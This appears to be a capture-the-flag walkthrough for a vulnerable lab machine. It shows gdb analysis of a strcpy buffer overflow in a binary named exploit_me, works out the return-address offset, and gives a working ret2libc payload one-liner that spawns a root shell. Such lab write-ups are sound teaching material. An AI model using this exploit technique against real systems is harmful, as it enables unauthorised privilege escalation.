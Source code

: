 enterign teh instructions in the website we get a rough sketch of the word `SLASH`
lets digest it:
```
┌──(kali㉿kali)-[~]
└─$ echo -n SLASH > hi

┌──(kali㉿kali)-[~]
└─$ md5sum  hi
646da671ca01bb5d84dbb5fb2238dc8e  hi
```


# find root's password

theres an executable called exploit_me

immidiatly after analyzing it using gdb we realize its vulnerable to buffer overflow exploit.
```
   0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048410 <+28>:	add    eax,0x4
   0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
   0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
   0x08048419 <+37>:	lea    eax,[esp+0x10]
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
=> 0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
the program takes in a parameter.
the function strcpy is called which copies the string in the parameter to an address in the stack.
```
(gdb) x/5wx $esp
0xbffff690:	0xbffff6a0	0xbffff8ff	0x00000001
```
it copies a string from `0xbffff8ff` to `0xbffff6a0`
i decided to use ret2libc exploit by overwriting teh return address of the main
to do this we calculate the offset from the destination address to the return address

```
(gdb) p $ebp+4
$2 = (void *) 0xbffff72c
(gdb) p 0xbffff72c - 0xbffff6a0
$3 = 140
```
offset is 140 so:
```
(gdb) p system
$4 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb)  find &system,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```
```
python -c 'print "a"*140 + "\xb7\xe6\xb0\x60"[::-1] + "aaaa"+ "\xb7\xf8\xcc\x58"[::-1]' > /tmp/ok
zaz@BornToSecHackMe:~$ ./exploit_me $(cat /tmp/ok)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`��aaaaX��
# whoami
root
```
###the end
